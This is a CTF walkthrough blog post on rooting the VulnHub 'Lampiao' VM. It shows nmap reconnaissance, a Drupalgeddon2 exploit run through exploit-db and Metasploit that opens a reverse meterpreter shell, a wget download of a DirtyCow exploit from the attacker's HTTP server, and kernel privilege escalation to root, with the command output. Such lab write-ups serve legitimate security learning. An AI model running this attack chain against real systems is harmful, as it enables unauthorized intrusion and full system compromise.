 ```yaml
---
layout: post-detail
title: Walkthrough on the CTF lampiao
date: 2018-10-01
categories: CTF
description: CTF on lampiao, iso : https://www.vulnhub.com/entry/lampiao-1,249/
img-url: ''
comments: true
---
```


# Iso

Download the iso here: https://www.vulnhub.com/entry/lampiao-1,249/

# Discover the target

    $ sudo nmap -sS 192.168.2.0/24

```txt
Nmap scan report for 192.168.2.118
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E1:ED:D5 (Oracle VirtualBox virtual NIC)
```

192.168.2.118 is our target, a ssh and a http server run.

# More informations

    $ sudo nmap -sT -sV -A -p- 192.168.2.118

```txt
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
- - -
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
```

The /CHANGELOG.txt show us the version of drupal 7.54

    $ searchsploit drupal

```txt
Drupal < 7.58 / < | exploits/php/webapps/44449.rb
```

We launch the exploit.

    $ ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb http://192.168.2.118:1898

```txt
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://192.168.2.118:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.2.118:1898/CHANGELOG.txt (200)
[+] Drupal!: 7.54
--------------------------------------------------------------------------------
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://192.168.2.118:1898/s.php' -d 'c=whoami'
lampiao>>
```
Unfortunately, the shell is very limited, try run g++ return:

    lampiao>> g++
    sh: 1: g: not found

Or `chmod +x something`, we cannot use any special character.
We'll run the same exploit under `metasploit` and `meterpreter`.

    $ msfconsole
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOST 192.168.2.118
    set RPORT 1898
    exploit

```txt
[*] Started reverse TCP handler on 192.168.2.92:1898 
[*] Drupal 7 targeted at http://192.168.2.118:1898/
[+] Drupal appears unpatched in CHANGELOG.txt
[*] Sending stage (37775 bytes) to 192.168.2.118
[*] Meterpreter session 1 opened (192.168.2.92:1898 -> 192.168.2.118:36346) at 2018-10-01 15:46:15 +0200
meterpreter >
```

    meterpreter > shell
    python -c 'import pty;pty.spawn("/bin/bash")'
    lampiao:/var/www/html$ uname -a
    Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux

Back on my machine to research a nice exploit, i've try:

    $ searchsploit linux 4.4

```txt
43418.c
39166.c
37292.c
42276.c
37088.c
9542.c
41458.c
39277.c
40003.c
44298.c
44300.c
```

After a few hours to test no working exploit, i've test an another query on exploitdb:

    $ searchsploit Linux Kernel | grep local | wc -l
    200

Try to reduce the list, only `.c` and `.cpp` exploit.

    $ searchsploit Linux Kernel | grep local | grep -e "\.cpp$" -e "\.c$" | wc -l
    151

We remove `x86_64` and `arm` exploit.
     
    $ searchsploit Linux Kernel linux/local | grep -e "\.cpp$" -e "\.c$" | wc -l
    126

The list is again huge... after some times, the exploit `40847.cpp` has work...

```txt
Linux Kernel 2.6.22 < 3.9 | exploits/linux/local/40847.cpp
```

Yep, an exploit for `kernel 2.6.2 < 3.9` has work on a `kernel 4.4.0`.  
It must be 'the message' of this vm, never give up !

Start a server to download file under the lampiao vm.

    $ python2.7 -m SimpleHTTPServer 4444

    lampiao$ wget http://192.168.2.92:4444/40847.cpp

Instruction to compile are in the file:

    lampiao$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
    lampiao$ ./dcow -s

We are finally root:

    root@lampiao:~# cd
    root@lampiao:~# cat flag.txt
    9740616875908d91ddcdaa8aea3af366


